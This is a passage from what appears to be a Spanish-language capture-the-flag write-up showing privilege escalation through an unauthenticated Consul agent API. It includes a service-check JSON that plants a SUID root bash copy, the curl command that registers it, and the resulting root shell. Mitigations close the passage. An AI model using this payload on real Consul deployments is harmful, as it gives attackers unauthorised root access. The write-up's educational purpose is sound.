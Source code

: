 Esto significa que no se requiere autenticación ni tokens ACL para llamar a la API de agente y registrar servicios o checks.

Entonces podemos crear un json definiendo un bloque `check` con lo siguiente: 
```json
{
  "Name": "owo service",
  "ID": "rev-shell",
  "Port": 0,
  "Check": {
      "args": ["bash", "-c", "cp /bin/bash /tmp/uwu && chmod 6777 /tmp/uwu"],
      "interval": "30s",
      "timeout": "5s"
  }
}
```
- cp /bin/bash /tmp/0xdf copia el intérprete de Bash.
- chmod 6777 /tmp/0xdf pone el bit SUID y SGID (6 → owner+group sticky), de modo que quien ejecute /tmp/0xdf obtenga los privilegios del propietario (root).

Lo mandamos a la API: 

```bash 
ron@heal:/dev/shm$ vim uwu.json
ron@heal:/dev/shm$ curl -X PUT http://127.0.0.1:8500/v1/agent/service/register -H "Content-Type: application/json" -d @uwu.json 
ron@heal:/dev/shm$ ls /tmp
runtime-ralph                                                                     systemd-private-dd0c1005821a469787526d38455a3de0-systemd-timesyncd.service-RIgRbX
systemd-private-dd0c1005821a469787526d38455a3de0-ModemManager.service-y3REGC      systemd-private-dd0c1005821a469787526d38455a3de0-upower.service-7HSF4k
systemd-private-dd0c1005821a469787526d38455a3de0-systemd-logind.service-Po8QaV    uwu
systemd-private-dd0c1005821a469787526d38455a3de0-systemd-resolved.service-iROuz3  vmware-root_782-2965579254
ron@heal:/dev/shm$ /tmp/uwu -p 
uwu-5.1# whoami
root
uwu-5.1# ls /root
cleanup-consul.sh  consul-up.sh  plugin_cleanup.sh  root.txt
uwu-5.1# 
```

## Mitigaciones

1. **Activar ACLs y políticas estrictas**

   * Poner `acl_default_policy: deny` y requerir tokens ACL con permisos muy limitados para usuarios/servicios.

2. **Deshabilitar script checks**

   * En el config:

     ```json
     "enable_script_checks": false
     ```
